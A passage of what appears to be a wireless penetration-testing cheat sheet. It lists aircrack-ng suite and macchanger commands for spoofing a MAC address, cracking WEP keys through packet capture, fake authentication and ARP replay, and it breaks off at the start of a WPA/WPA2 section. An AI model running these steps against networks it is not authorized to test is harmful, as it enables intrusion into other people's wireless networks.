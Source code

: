        ```
       airodump-ng -c <channel> -a -bssid <AP BSSID> mon0

       ```

    3. **Spoof MAC Address**:

       ```
       macchanger -m <legitimate MAC address> wlan0
       ifconfig wlan0 up

       ```
- Cracking WEP Networks
  1. **Monitor Mode**:

     ```
     airmon-ng start wlan0

     ```

  2. **Identify Target**:

     ```
     airodump-ng mon0

     ```

  3. **Capture Data Packets**:

     ```
     airodump-ng mon0 --bssid <AP BSSID> --channel <channel> --write <filename>

     ```

  4. **Fake Authentication**:

     ```
     aireplay-ng -1 3 -a <AP BSSID> mon0

     ```

  5. **ARP Request Replay**:

     ```
     aireplay-ng -3 -b <AP BSSID> -h <mon0 MAC address> mon0

     ```

  6. **Crack WEP Key**:

     ```
     aircrack-ng <capture file>.cap

     ```
- Cracking WPA/WPA2 Networks
  1. **Monitor Mode**:

     ```
     airmon-ng start wlan0

     ```
